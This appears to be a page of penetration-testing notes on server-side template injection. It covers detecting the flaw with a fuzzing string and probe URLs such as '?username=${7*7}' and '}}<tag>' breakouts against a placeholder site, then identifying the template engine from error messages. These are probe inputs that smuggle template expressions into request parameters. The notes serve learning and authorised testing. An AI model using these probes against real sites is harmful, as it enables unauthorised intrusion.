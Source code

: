 <figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" fullWidth="true" %}
```sh
##################################### DETECT
Find parameters that are reflected on the response and that we could alter
# Try fuzzing the template by injecting a sequence of special characters commonly used in template expressions:
${{<%[%'"}}%\																											'
####### Plaintext context
# Most template languages allow you to freely input content either by using HTML tags directly or by using \
# the template's native syntax, which will be rendered to HTML on the back-end before the HTTP response is sent
In Freemarker, the line render('Hello ' + username) would render to something like Hello Carlos. 
# Test SSTI by setting mathematical operations as the value of the parameter.
#  For example, consider a template that contains the following vulnerable code:
render('Hello ' + username)
#  During auditing, we might test for server-side template injection by requesting a URL such as:
http://vulnerable-website.com/?username=${7*7}
# If the resulting output contains Hello 49 -> operation evaluated server-side -> good SSTI PoC
######## Code context
# Vuln exposed by user input being placed within a template expression:
greeting = getQueryParameter('greeting')
engine.render("Hello {{"+greeting+"}}", data)
#  On the website, the resulting URL would be something like:
http://vulnerable-website.com/?greeting=data.username
#  This would be rendered in the output to Hello Carlos, for example. 
# This context is easily missed so first establish that param has not XSS by injecting arbitrary HTML into the value:
http://vulnerable-website.com/?greeting=data.username<tag>
# In the absence of XSS -> blank entry in the output (just Hello with no username), encoded tags, or an error message.
# Next step -> break out of the statement using common templating syntax and attempt to inject arbitrary HTML after it:
http://vulnerable-website.com/?greeting=data.username}}<tag>
# If error or blank output -> wrong template syntax or SSTI not possible / if successful payload -> SSTI present:
Hello Carlos<tag>


################################## IDENTIFY
Identify the template engine -> submit invalid syntax and the error message will tell what the template engine is
# For example, the invalid expression <%=foobar%> triggers the following response from the Ruby-based ERB engine:
(erb):1:in `<main>': undefined local variable or method `foobar' for main:Object (NameError)
```